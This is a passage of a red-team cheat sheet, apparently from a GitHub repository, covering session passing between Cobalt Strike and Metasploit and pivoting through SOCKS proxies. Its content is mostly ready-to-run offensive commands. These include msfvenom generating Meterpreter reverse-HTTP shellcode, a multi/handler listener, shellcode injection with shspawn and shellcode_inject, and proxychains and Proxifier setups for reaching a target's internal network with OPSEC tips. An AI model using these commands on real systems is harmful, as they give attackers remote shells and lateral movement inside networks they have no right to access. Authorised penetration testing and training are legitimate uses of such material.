 #### Cobalt strike --> Metasploit shellcode shspawn new process
```
sudo msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_http
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<IP> LPORT=8080 -f raw -o /tmp/msf_http_x64.bin

shspawn x64 C:\Payloads\msf_http_x64.bin
```

### Metasploit --> Cobalt strike
- Go to Attacks --> Packages --> Windows Executable (S), select the desired listener, select Raw as the Output type and select Use x64 payload.
```
use post/windows/manage/shellcode_inject
set SESSION 1
set SHELLCODE /tmp/beacon.bin
run
```

## Pivoting
### Socksproxy
#### Enable Socksproxy no auth
- OPSEC: This binds the port on all interfaces and since there is no authentication available on SOCKS4, this port can technically be used by anyone
```
socks <PORT> <SOCKS4/SOCKS5>
```

#### Enable Socksproxy auth
- The enableLogging option sends additional logs (such as authentication failures) to the VM console, which you unfortunately can't see easily when the team server running as a service.  Instead, you can use journalctl:
```
socks <PORT> socks5 disableNoAuth <USER> <PASS> enableLogging
```

### Using proxychains
#### Proxychains
- For linux
- Change proxychains config `socks5 <IP> <PORT> <USER> <PASS>`
```
sudo vim /etc/proxychains.conf
proxychains <COMMAND>
```

#### Proxifier
- https://www.proxifier.com/
- For windows
- Open Proxifier, go to Profile -> Proxy Servers and Add a new proxy entry, which will point at the IP address and Port of your Cobalt Strike SOCKS proxy.
- Next, go to Profile -> Proxification Rules. This is where you can add rules that tell Proxifier when and where to proxy specific applications. Multiple applications can be added to the same rule, but in this example, I'm creating a single rule for adexplorer64.exe (part of the Sysinternals Suite).
- Target hosts fill in the target internal network range with the action ```proxy socks <TARGET>```
- NOTE: You will also need to add a static host entry in `C:\Windows\System32\drivers\etc\hosts` file: `<DC IP> <DOMAIN>`. You can enable DNS lookups through Proxifier, but that will cause DNS leaks from your computer into the target environment.
